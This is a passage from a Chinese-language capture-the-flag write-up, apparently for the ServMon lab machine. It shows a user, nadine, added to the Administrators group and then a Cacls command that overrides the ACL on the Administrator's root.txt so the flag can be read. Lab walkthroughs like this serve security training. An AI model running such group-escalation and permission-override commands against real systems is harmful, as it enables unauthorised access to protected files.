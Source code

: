 ```
User profile
Home directory
Last logon                   08/12/2021 14:55:43                                                                                                                                                               

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

需注意，上面命令执行完成以后，我们还不能马上使得命令生效，需要退出当前ssh，重新登录

现在我们已经可以进管理员目录看到root.txt，但是还是没有查看权限。。
```
nadine@SERVMON C:\Users\Administrator>cd Desktop

nadine@SERVMON C:\Users\Administrator\Desktop>type root.txt
Access is denied.


```

修改root.txt文件的权限，nadine可以对其完全控制

```
nadine@SERVMON C:\Users\Administrator\Desktop>Cacls C:\Users\Administrator\Desktop\root.txt /t /e /c /g nadine:F
processed file: C:\Users\Administrator\Desktop\root.txt

nadine@SERVMON C:\Users\Administrator\Desktop>type root.txt
{就不告诉你：）}
```

成功读取到root.txt